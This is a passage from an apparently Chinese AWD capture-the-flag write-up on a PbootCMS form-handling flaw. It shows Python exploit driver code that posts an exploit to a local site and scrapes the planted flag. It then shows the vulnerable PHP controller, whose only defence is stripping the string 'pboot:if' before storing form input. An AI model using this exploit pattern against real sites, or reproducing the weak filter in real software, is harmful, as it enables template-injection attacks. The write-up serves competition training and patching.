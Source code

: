 ```python
def getFlag():
    r = requests.get("http://127.0.0.1/?gbook/")
    flagg = re.findall(r'''flag="(.+?)";''', r.text)
    if (len(flagg)!=0):
        print(flagg[0])
    else:
        print("Flag获取失败")
```

```python
if __name__ == '__main__':
    url = "http://127.0.0.1/?message/"
    if postExp(url):
        getFlag()
```

Exp 可用性验证如下

![exp2_insert_flag_215](../img/exp2_insert_flag_215.jpg)

#### FixIt

##### Before Fix： awdBreak 文件夹下

`apps\home\controller\FormController.php` line 68-80

```php
foreach ($form as $value) {
    $field_data = post($value->name);
    if (is_array($field_data)) { // 如果是多选等情况时转换
        $field_data = implode(',', $field_data);
    }
    $field_data = str_replace('pboot:if', '', $field_data);
    if ($value->required && ! $field_data) {
        alert_back($value->description . '不能为空！');
    } else {
        $data[$value->name] = $field_data;
        $mail_body .= $value->description . '：' . $field_data . '<br>';
    }
```